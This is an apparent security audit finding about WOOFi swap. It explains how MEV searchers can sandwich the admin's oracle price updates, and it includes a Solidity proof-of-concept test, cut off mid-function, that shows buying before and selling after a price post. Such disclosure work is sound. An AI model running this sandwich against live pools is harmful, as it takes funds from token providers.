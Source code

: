 # Issue H-1: Oracle price updates can be easily sandwiched for atomic profits 

Source: https://github.com/sherlock-audit/2024-03-woofi-swap-judging/issues/17 

The protocol has acknowledged this issue.

## Found by 
mstpr-brainbot
## Summary
When the new price is posted by admin to oracle, any MEV searcher can frontrun/sandwich for atomic profits. Such sandwich would mean loss of funds for the supplier of the tokens.
## Vulnerability Detail
Assume USDC is quote token and WOO is base token. WOO does not have a chainlink price feed which means the pricing of WOO will be handled by the WooOracle solely. 

Also assume that the WOO price is 0.5$. However, in off-chain markets, the price of WOO increases to 0.55$ and the oracle is updated by the admin so the oracle update will make the onchain price 0.5$ -> 0.55$.

MEV bot sees the oracle price update tx in mempool, and quickly buys WOO tokens from the pool contract and then sells it for more USDC after the oracle update is completed. At the end, MEV bot achieved to buy WOO tokens from 0.5$ and managed to sell all for 0.55$ in 1 tx. The profit that the MEV bot made is basically a loss to the provider of the WOO tokens in the pool since the WOO tokens are sold to a price that is cheaper than it should be. 

**Coded PoC:**
```solidity
function test_frontrunOraclePriceUpdate() public {
        uint usdcAmount = 1_000_000 * 1e6;
        uint wooAmount = 100_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        vm.stopPrank();

        assertEq(IERC20(USDC).balanceOf(address(pool)), usdcAmount);

        uint usdcAmountForTapir = 10_000 * 1e6;
        vm.startPrank(TAPIR);
        deal(USDC, TAPIR, usdcAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // sell USDC for WOO before price update, frontrun, initial price is 0.5
        vm.prank(TAPIR);
        uint receivedWOO = router.swap(USDC, WOO, usdcAmountForTapir, 0, payable(TAPIR), TAPIR);
        console.log("Received WOO", receivedWOO);

        // new price is updated, 0.55
        vm.prank(ADMIN);
        oracle.postPrice(WOO, 0.55 * 1e8);

        // immediately sell back 
        vm.prank(TAPIR);
        uint receivedUSDC = router.swap(WOO, USDC, receivedWOO, 0, payable(TAPIR), TAPIR);
```
